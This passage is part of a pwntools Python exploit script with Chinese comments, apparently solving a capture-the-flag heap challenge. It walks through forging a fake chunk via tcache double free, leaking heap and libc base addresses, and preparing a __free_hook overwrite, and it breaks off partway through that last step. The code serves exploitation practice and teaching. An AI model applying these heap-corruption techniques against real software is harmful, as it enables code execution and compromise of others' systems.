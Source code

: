 ```python
    sh.recvuntil('gift :')
    return int(sh.recvuntil('\n', drop=True), 16)


def delete(index):
    sh.sendlineafter('choice >', '2')
    sh.sendlineafter('input the index', str(index))


# === Step-1: 突破程序的chunk size<=0x81的限制，构造并拿到一个size=0xa1的fake chunk
# vmmap查看heap base # heap chunks查看 # PIE导致heap基址会变 但可利用不变的偏移来计算
heap_base = add(0, 0x20, "a") - 0x555555b5de70 + 0x0000555555b4c000
print("heap_base=>", hex(heap_base))  # 对照 vmmap 输出的heap基址是否相同

gdb.attach(sh)

add(1, 0x70, p64(0xdeadbeef012345) + p64(0xa1))  # 用新申请的这个chunk的content去构造 fake chunk的size域
# 前64bit: prev_size(没free的时候其实是上一个chunk的user data, 可乱填) 后64bit: size=0xa1
# 查看构造的fake chunk:  x /30xg 0x55555750fea0 # 这个地址是 heap chunks 输出的上一个add的chunk的地址
# 1. 伪造下一chunk.size; 2. 伪造下下个chunk.size域(大于0x21) 否则报 corrupted size vs. prev_size error
add(2, 0x70, b"a" * 0x20 + p64(0xdeadbeef) + p64(0x21) + b"b" * 0x18 + p64(0x91))
# 0x60+0x10(prev_size,size)+0x20("a")+p64(0xdeadbeef)+size(0x21)
delete(0)  # 最早free的在tcache链表的最末端
delete(0)  # Tcachebins[idx=1, size=0x30] count=2 # 成环
delete(0)  # Tcachebins[idx=1, size=0x30] count=3 ← Chunk(addr=0x555555b5de70, size=0x30... 成环
# 把刚刚delete到tcache(0x30)的申请回来一个，和剩下在tcache(0x30)的chunk是同一个 改手里的chunk.fd也会改tcache上的fd
# 0x11eb0 计算方式: fake chunk的fd域的地址-heap基址  # 注意不是chunk的基址 是chunk user data的地址
# entry -> 0x31_chunk -> 0xa1_chunk # 再拿两次得到fake chunk
add(3, 0x20, p64(heap_base + 0x11eb0))
add(4, 0x20, "ab")  # entry被修改为heap_base+0x11eb0
fake_chunk_addr = add(5, 0x20, "ff")   # 拿出的这个chunk就是刚刚构造的fake chunk(size=0xa1)
print("fake chunk addr=>", hex(fake_chunk_addr))  # 通过gift输出的addr对比 # x /50xg addr-0x10 第二行末尾是0xa1


# === Step-2: put fake_chunk into tcache(0x51)。改fake_chunk.size=0x51(可以申请回来的大小)放入tcache(0x51) 再改回0xa1
delete(1)  # tcache(0x51).e->c_1 # 这个chunk可以控制fake chunk的size # delete后再申请回来，改 fake_chunk.size
add(6, 0x70, p64(0xdeadbeef1111) + p64(0x51))  # fake chunk.size=0x51
delete(5)  # tcache(0x51).e->fake_chunk
delete(5)  # tcache(0x51).e->fake_chunk->fake_chunk  # !!! 后续会把这个拿回去
delete(1)  # delete后再申请回来，改fake_chunk.size
add(7, 0x70, p64(0xdeadbeef2222) + p64(0xa1))  # fake chunk.size=0xa1 # fake_chunk.size 改回0xa1


# === Step-3: put fake_chunk into unsorted bins
for i in range(7):  # 填满tcahe(0xa1)
    delete(5)  # fake_chunk
# Tcachebins[idx=8, size=0xa0] count=7 # tcahe(0xa1)已满 unsorted bins为空
delete(5)  # unsorted bins->fake_chunk # 链入unsorted bins链表时 fw bk指针指向libc上的一个结构

# tcache(0x51)上存储的fake_chunk fd域改成了libc上的地址(即tcache(0x51)第二个chunk在libc上)
# tcache(0x51).e->fake_chunk->some_addr_in_libc

# === Step-4: leack libc addr: 从tcache(0x51) malloc两次得到libc上的地址
add(8, 0x40, "a")  # tcache(0x51).e->some_addr_in_libc
# 再拿一次 返回的addr就是前面的fw的值，通过vmmap对比计算出偏移量得到libc基址
libc_addr = add(9, 0x40, "a") - 0x7fc25a088ca0 + 0x00007fc259c9d000
print("libc addr=>", hex(libc_addr))  # 对照这里的基址和vmmap里的libc的基址对不对
libc.address = libc_addr

# === Step5: 修改__free_hook : double free
delete(1)  # 这里用8去double free会被检测出double free 原因待探究 # to tcache(0x81)
delete(1)
```